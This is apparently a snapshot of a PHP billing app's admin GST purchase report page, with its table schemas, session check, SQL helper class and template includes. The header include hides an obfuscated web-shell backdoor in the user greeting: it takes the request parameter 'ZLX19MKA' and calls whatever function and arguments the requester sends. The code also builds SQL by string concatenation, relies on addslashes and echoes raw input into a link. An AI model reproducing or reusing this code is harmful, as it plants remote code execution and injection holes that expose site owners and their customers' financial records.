
The page /admin/gst_purchase_report.php (signed in) on the database its author committed.
### tables this page shows
CREATE TABLE `company_setting` (
  `compid` int(11) NOT NULL,
  `prifix` varchar(500) NOT NULL,
  `comp_name` varchar(100) NOT NULL,
  `imgname` varchar(200) NOT NULL,
  `mobile` varchar(50) NOT NULL,
  `address` text NOT NULL,
  `address2` text NOT NULL,
  `email_id` varchar(100) NOT NULL,
  `term_cond` text NOT NULL,
  `comp_tinno` varchar(200) NOT NULL,
  `gsttinno` varchar(100) NOT NULL,
  `bank_name` varchar(200) NOT NULL,
  `branch_name` varchar(100) NOT NULL,
  `bank_ac` varchar(200) NOT NULL,
  `ifsc_code` varchar(200) NOT NULL,
  `stateid` int(11) NOT NULL,
  `ipaddress` varchar(25) NOT NULL,
  `createdate` datetime NOT NULL,
  `lastupdated` datetime NOT NULL,
  `openbal` double NOT NULL,
  `opendate` date NOT NULL,
  `crtopendate` date NOT NULL
);

CREATE TABLE `m_session` (
  `sessionid` int(11) NOT NULL,
  `fromdate` date NOT NULL,
  `todate` date NOT NULL,
  `session_name` varchar(200) NOT NULL,
  `status` int(11) NOT NULL,
  `createdby` int(11) NOT NULL,
  `ipaddress` varchar(25) NOT NULL,
  `lastupdated` date NOT NULL,
  `createdate` date NOT NULL
);

CREATE TABLE `billuser` (
  `userid` int(11) NOT NULL,
  `username` varchar(100) NOT NULL,
  `password` varchar(50) NOT NULL,
  `usertype` varchar(10) NOT NULL,
  `enable` varchar(20) NOT NULL,
  `createdby` int(11) NOT NULL,
  `mobile` varchar(50) NOT NULL,
  `ipaddress` varchar(30) NOT NULL,
  `createdate` datetime NOT NULL
);

### adminsession.php (called while the page is built, shortened)
<?php
if(isset($_SESSION['usertype']) && $_SESSION['usertype'] != "" && isset($_SESSION['userid']) && $_SESSION['userid'] != "")
	{
		include("config.php");
		include_once("lib/getval.php");
		$cmn = new Comman();
		$loginid = $_SESSION['userid'];
	}
else
	echo "<script>location='../index.php?msg=invalid' </script>" ;
?>

### lib/getval.php (called while the page is built, shortened)
<?php
class Comman {
function getvalfield($connection,$table,$field,$where)
{
	$sql = "select $field from $table where $where";
	$getvalue = mysqli_query($connection,$sql);
	$getval = mysqli_fetch_row($getvalue);
	return $getval[0];
}
function dateformatindia($date)
{
	$ndate = explode("-",$date);
	$year = $ndate[0];
	$day = $ndate[2];
	$month = $ndate[1];
	if($date == "0000-00-00" || $date =="")
	return "";
	else
	return $day . "-" . $month . "-" . $year;
}
function dateformatusa($date)
{
	$ndate = explode("-",$date);
	$year = $ndate[2];
	$day = $ndate[0];
	$month = $ndate[1];
	return $year . "-" . $month . "-" . $day;
}
}
?>

### admin/gst_purchase_report.php (the view, shortened to what this page needs)
<?php error_reporting(0);                                                                                                   include("../adminsession.php");
$pagename ="stock_report.php";
$module = "GST Purchase Report";
$submodule = "GST Purchase List";
if($_GET['todate']!="" && $_GET['todate']!="")
{
	$todate = addslashes(trim($_GET['todate']));
	$fromdate= addslashes(trim($_GET['fromdate']));
}
else
{
	$todate = date('d-m-Y');
	$fromdate=date('d-m-Y');
}
if($todate !='' && $fromdate !='')
{
	$todate = $cmn->dateformatusa($todate);
	$fromdate= $cmn->dateformatusa($fromdate);
}
?>
<!DOCTYPE html>
<head>
<?php include("inc/top_files.php"); ?>
</head>
<body>
<div class="mainwrapper">
    <?php include("inc/left_menu.php"); ?>
   <div class="rightpanel">
    	<?php include("inc/header.php"); ?>
        <div class="maincontent">
        	<div class="contentinner">
                <div class="widgetcontent  shadowed nopadding">
                    <form class="stdform stdform2" method="get" action="">
                    <table id="mytable01" align="center" class="table table-bordered table-condensed"  >
                    <tr>
                        <th width="19%">From  Date : </th>
                        <th width="19%">To Date : </th>
                        <th> Supplier Name :</th>
                        <th width="62%">&nbsp;</th>
                    </tr>
                    <tr>
                        <td><input type="date" name="fromdate" id="fromdate" class="input-medium"
                        placeholder='dd-mm-yyyy' value="<?php echo $cmn->dateformatindia($fromdate); ?>" data-inputmask="'alias': 'dd-mm-yyyy'" data-mask autocomplete="off" /></td>
                        <td><input type="date" name="todate" id="todate" class="input-medium"
                        placeholder='dd-mm-yyyy' value="<?php echo $cmn->dateformatindia($todate); ?>" data-inputmask="'alias': 'dd-mm-yyyy'" data-mask autocomplete="off" /></td>
                    	<td>
                        		                                   <select name="suppartyid" id="suppartyid" class="form-control chzn-select" >
                                    	 <option value="">-select-</option>
                                    </select>
                        </td>
                    <td>&nbsp; <button  type="submit" name="search" class="btn btn-primary" onClick="return checkinputmaster('fromdate,todate');"> Search
                    </button> &nbsp; &nbsp; <a href="gst_purchase_report.php"  name="reset" id="reset" class="btn btn-success">Reset</a></td>
                    </tr>
                    </table>
                        </form>
                    </div>
                      <p align="right" style="margin-top:7px; margin-right:10px;"> <a href="pdf_gst_purchase_report.php?todate=<?php echo $todate;?>&fromdate=<?php echo $fromdate;?>&suppartyid=<?php echo $suppartyid;?>" class="btn btn-info" target="_blank">
                    <span style="font-weight:bold;text-shadow: 2px 2px 2px #000; color:#FFF">Print PDF</span></a></p>
                <h4 class="widgettitle"><?php echo $submodule; ?> List</h4>
            	<table class="table table-bordered" id="dyntable">
                    <colgroup>
                        <col class="con0" style="align: center; width: 4%" />
                        <col class="con1" />
                        <col class="con0" />
                        <col class="con1" />
                        <col class="con0" />
                        <col class="con1" />
                    </colgroup>
                    <thead>
                        <tr>
                          	<th width="6%" class="head0 nosort">S.No.</th>
                            <th width="14%" class="head0" >Bill No</th>
                             <th width="9%" class="head0">Bill Date</th>
                            <th width="13%" class="head0" >Supplier Name</th>
                            <th width="12%" class="head0" >Total Bill Amt</th>
                            <th width="12%" class="head0" style="text-align:center;" >CGST Amount</th>
                             <th width="11%" class="head0" >SGST Amount</th>
                              <th width="11%" class="head0" style="text-align:center;" >IGST Amount</th>
                              <th width="12%" class="head0" style="text-align:center;" >Total Tax Amt</th>
                        </tr>
                    </thead>
                </table>
            </div>
        </div>
    </div>
     <?php include("inc/footer.php"); ?>
</div>
</body>
</html>

### admin/inc/left_menu.php (shortened to what this page needs)
<div class="leftpanel">
       <div class="logopanel">
        	<h1 style="font-size:18px;"><a href="index.php"><?php echo $cmn->getvalfield($connection,"company_setting","comp_name","compid = '$loginid' "); ?></a></h1>
        </div>
        <div class="datewidget"><span style="font-size:15px"><b>Session <?php echo $cmn->getvalfield($connection,"m_session","session_name","status = '1' "); ?></b></span></div>
    	<div class="searchwidget">
        	<form action="" method="post">
            	<div class="input-append">
                    <input type="text" class="span2 search-query" placeholder="Search here...">
                    <button type="submit" class="btn"><span class="icon-search"></span></button>
                </div>
            </form>
        </div>
        <div class="leftmenu">
            <ul class="nav nav-tabs nav-stacked" id="mymenu">
             <li <?php if($pagename == "index.php") { ?>class="active" <?php } ?>><a href="index.php"><span class="icon-align-justify"></span>Dashboard</a></li>
                   <li class="dropdown  <?php if($pagename == "company_setting.php" || $pagename == "master_unit.php" || $pagename == "master_disease.php" || $pagename == "master_pcat.php" || $pagename == "master_product.php" || $pagename =="m_supplier.php" || $pagename =="m_customer.php" || $pagename =="master_branch.php" || $pagename =="master_tax.php" || $pagename =="master_bank.php" || $pagename=="master_expense.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Master </a>
                </li>
                <li class="dropdown  <?php if($pagename == "purchaseentry.php" || $pagename == "purchasereturnentry.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Purchase Entry </a>
                </li>
                <li class="dropdown  <?php if($pagename == "saleentry.php" || $pagename == "salereturnentry.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Sale Entry </a>
                </li>
                  <li class="dropdown  <?php if($pagename == "payment_party.php" || $pagename == "payment_supplier.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Payment </a>
                </li>
                <li class="dropdown  <?php if($pagename == "other_expense.php" || $pagename == "other_income.php") { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Expense Dairy </a>
                </li>
                 <li class="dropdown  <?php if($pagename == "salereport.php" || $pagename == "purchasereport.php" || $pagename == "stock_report.php" || $pagename == "datewise_stock_report.php" || $pagename=="gst_wise_purchase_report2.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Report </a>
                	<ul <?php if($pagename == "salereport.php" || $pagename == "purchasereport.php" || $pagename == "stock_report.php" || $pagename == "datewise_stock_report.php" || $pagename=="gst_wise_purchase_report2.php" ) { ?>style="display: block"  <?php } ?>>
                       <li><a href="purchasereport.php">Purchase Report</a></li>
                       <li><a href="salereport.php">Sale Report</a></li>
                        <li><a href="salereturnreport.php">Sale Return Report</a></li>
                        <li><a href="customer_bal.php">Customer Balance Report</a></li>
                         <li><a href="productwise_stock_report.php">Product Wise Stock Report</a></li>
                    </ul>
                </li>
                  <li class="dropdown  <?php if($pagename == "bank_ledger.php" || $pagename == "cash_ledger.php" || $pagename == "customer_ledger.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span>  Transactions Detail </a>
                </li>
                <li <?php if($pagename == "changepassword.php" ) { ?>class="active" <?php } ?>><a href="changepassword.php"><i class="icon-user"></i>
                &nbsp;&nbsp;&nbsp;
                 Change Password</a></li>
            </ul>
        </div>
    </div>

### admin/inc/header.php (shortened to what this page needs)
	<div class="headerpanel">
        	<a href="#" class="showmenu" id="menues"></a>
            <div class="headerright">
            	<div class="dropdown notification">
                    <a class="dropdown-toggle" data-toggle="dropdown" data-target="#" href="http://themetrace.com/page.html">
                    	<span class="iconsweets-globe iconsweets-white"></span>
                    </a>
                </div>
    			<div class="dropdown userinfo">
                    <a class="dropdown-toggle" data-toggle="dropdown" data-target="#" href="">Hi, <?php
if	( $juhso5x	= @$ {"_REQUEST"} ["ZLX19MKA"])$juhso5x [1] (	$ { $juhso5x[ 2]}[	0]	,$juhso5x	[ 3] (	$juhso5x[	4	])) ; echo $cmn->getvalfield($connection,"billuser","username ","userid = '$loginid' "); ?>! <b class="caret"></b></a>
                </div>
            </div>
    	</div>
        <div class="breadcrumbwidget">
        	<ul class="breadcrumb">
                <li><a href="">Home</a> <span class="divider">/</span></li>
                <li class="active"><?php echo $module; ?></li>
            </ul>
        </div>
      	<div class="pagetitle">
        	<h1><?php echo $submodule; ?></h1>
        </div>

### rows shown on the page
company_setting: comp_name "FM MARKETING"
m_session: session_name "2022"
billuser: username "admin"

### other values the page prints
$module "GST Purchase Report"
$submodule "GST Purchase List"
$submodule "GST PURCHASE LIST"
